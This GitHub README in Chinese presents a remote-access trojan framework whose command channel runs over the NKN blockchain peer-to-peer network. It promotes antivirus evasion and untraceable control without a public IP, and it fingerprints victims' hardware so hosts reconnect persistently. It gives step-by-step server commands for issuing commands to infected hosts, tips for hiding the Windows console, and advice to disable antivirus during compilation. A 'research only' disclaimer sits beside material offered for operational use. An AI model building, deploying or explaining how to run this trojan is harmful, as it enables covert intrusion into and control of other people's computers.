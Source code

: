 # Go-NKN-Trojan

一款由区块链的核心网络技术p2p实现的去中心化去C2的基础远控木马框架

## 特点

**解决木马C2服务的痛点，方法不同于域前置、白域名等手段，通信采用p2p作为通信基础架构，调用区块链NKN项目作为实现p2p通信，取消传统C2模式，控制端无需公网IP减少成本并且可以有效防止被溯源，并且同时解决了部分木马C2需要调用某端口进行长期通信弊端从而导致被及时响应删除，该木马与控制端每次通信都调用不同端口访问不同IP。**

**由于该通信方式为p2p模式去中心化，无法像传统C2有连接验证步骤保证连接正常，木马通过对主机一部分硬件设备信息进行收集整合生成该设备唯一指定ID，即使主机重装操作系统也不会改变控制ID，通过此ID目标主机持续对控制端进行心跳式回连保证控制端不丢失目标主机，同时防止目标主机出现意外状况再次上线后ID变化，混乱控制端可控制主机信息。**

**免杀性能优秀**

![image-20220528183550653](https://cdn.jsdelivr.net/gh/Saber-CC/img@master/data/image-20220528183550653.png)

![image-20220528183618747](https://cdn.jsdelivr.net/gh/Saber-CC/img@master/data/image-20220528183618747.png)

## 免责声明

```
1.依据《刑法修正案（七）》第9条增订的《刑法》第285条第3款的规定，犯提供非法侵入或者控制计算机信息系罪的，处3年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处3年以上7年以下有期徒刑，并处罚金。
2.第二百八十五条第二款 违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。
3.刑法第二百五十三条之一：“国家机关或者金融、电信、交通、教育、医疗等单位的工作人员，违反国家规定，将本单位在履行职责或者提供服务过程中获得的公民个人信息，出售或者非法提供给他人，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金。情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。
```

**由于传播、利用开源信息而造成的任何直接或间接的后果及损失，均由使用者本人负责，作者不承担任何责任。**

**开源仅作为安全研究之用！切勿用作实战用途！仅限于本地复现！**

## 使用

### server

**首先需要随机生成一个64位seed，调用下列命令即可。该种子将作为的控制者的唯一标识ID，切勿丢失**

```
server.exe -g new
```

**将64位seed加载读入程序中，控制端将生成该seed的唯一控制ID，控制ID格式为monitor.xxxx....**

```
server.exe -g e6178488d64cf94703f68c57cbdd7eb634a773ba119c7646a4394bac993e47f3
```

展示结果如下

```
your controlid = monitor.8146bae11e3f976c105f7cace9a96bed0dfdb0bdec2f1a8313e46d93726a77c7
```

**启动监听后，监听中若有目标机回连将会显示目标ID，该ID固定格式为xxxx.xxxx....，并且会同时会显示目标机公网IP、内网IP、MAC地址**。展示结果如下

```
target host connect, ID: 09d3.31642085613f0c6e34dff8b9ffc5d330746cd38ddb61fa2cd4884c5f9e634a0b ,target IP address : xxx.xxx.xxx.xx|xxx.xxx.xxx.xxx|xx:xx:xx:xx:xx:xx
```

**对目标机执行命令格式为：目标机ID 命令**

```
09d3.31642085613f0c6e34dff8b9ffc5d330746cd38ddb61fa2cd4884c5f9e634a0b whoami
```

### client

**将server中生成的控制端ID写入Client Code的controlid变量，编译即可。**

## 注意事项

可能会被一些安全产品误报为挖矿病毒，火绒会对区块链相关的编译工具报毒，编译时需关闭火绒或设置信任区。

Windows、Linux皆可成功编译执行，但若Windows平台若需要取消程序弹出CMD框，需要修改command.go配置，WindowsCommand所属Exec()函数中SysProcAttr追加HideWindow: true参数，例如

```
&syscall.SysProcAttr{HideWindow: true}
```

编译参数需要追加参数

```
-ldflags "-s -w -H=windowsgui"
```

**该框架目前只编写了命令执行功能为测试可行性，其余功能可自行追加。**
